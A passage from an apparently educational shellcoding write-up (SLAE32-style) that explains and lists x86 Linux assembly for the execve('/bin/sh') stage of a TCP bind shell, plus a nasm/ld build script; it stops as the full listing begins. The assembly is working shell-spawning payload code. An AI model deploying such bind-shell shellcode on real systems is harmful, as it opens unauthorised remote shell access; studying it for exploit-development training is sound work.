 mov ebx, esp
```

Now we need our 2nd (ECX) and 3rd (EDX) parameters to point to NULL values. As I stated above, I initially attempted to just 0 out the registers - however this did not work. So I ended up pushing a zero on to the stack and using the address held in ESP again to reference the top of the stack, which pointed at our zero value after the push. This was completed twice to satisfy both NULL parameters.

Finally, I set the EAX register to the value 0xb (11), which is the value of the execve system call, and executed it with the ‘int 0x80’ instruction.

```
xor eax, eax
push eax

push 0x68732f6e
push 0x69622f2f
mov ebx, esp

push eax
mov ecx, esp

push eax
mov edx, esp

xor eax, eax
mov eax, 0xb
int 0x80
```

We should now have a fully functioning TCP bind shell, ready for assembling, linking and executing. When connecting to the bind shell, remember the port number specified in the structure created and used within the bind() system call.

I created a quick little script to help with assembling and linking my scripts, rather than having to issue 2 separate commands each time:

```
root@kali:~/Documents/slae32/misc# cat build.sh 
echo "Assembling $1.asm"
nasm -f elf32 "$1".asm 

echo "Linking $1.o"
ld -s -o "$1" "$1".o

echo "Done"
```

Usage:

```./build.sh tcp_bind_shell```

Upon assembling and linking the asm file, you should have a functional TCP bind shell.

The entire first draft script can be seen here:

```
global  _start
section .text
